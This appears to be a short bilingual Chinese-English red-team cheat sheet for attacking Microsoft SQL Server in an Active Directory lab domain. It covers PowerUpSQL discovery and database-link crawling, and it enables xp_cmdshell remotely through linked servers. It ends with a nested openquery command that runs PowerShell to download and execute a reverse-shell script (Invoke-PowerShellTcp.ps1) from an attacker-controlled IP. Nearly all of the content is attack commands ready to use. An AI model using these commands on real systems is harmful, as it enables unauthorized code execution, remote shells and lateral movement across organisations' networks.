 使用[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

Discovery (SPN Scanning)
```
Get-SQLInstanceDomain
```

Check Accessibility
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

Gather Information
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

##  Database Links

寻找远程服务器的sql链接
```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

**查找所有链接**
```
select * from master..sysservers
```

Openquery 函数可用于在链接数据库上运行查询
```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

可以链接 Openquery 查询以访问链接内的链接（嵌套链接）
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

### Executing Commands（命令执行）

• On the target server, either xp_cmdshell should be already enabled; or
• If rpcout is enabled (disabled by default), xp_cmdshell can be enabled using

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "db-sqlsrv"
```

From the initial SQL server, OS commands can be executed using nested link queries（从初始 SQL 服务器，可以使用嵌套链接查询执行操作系统命令）
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

### 爬取远程服务器的链接
```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```
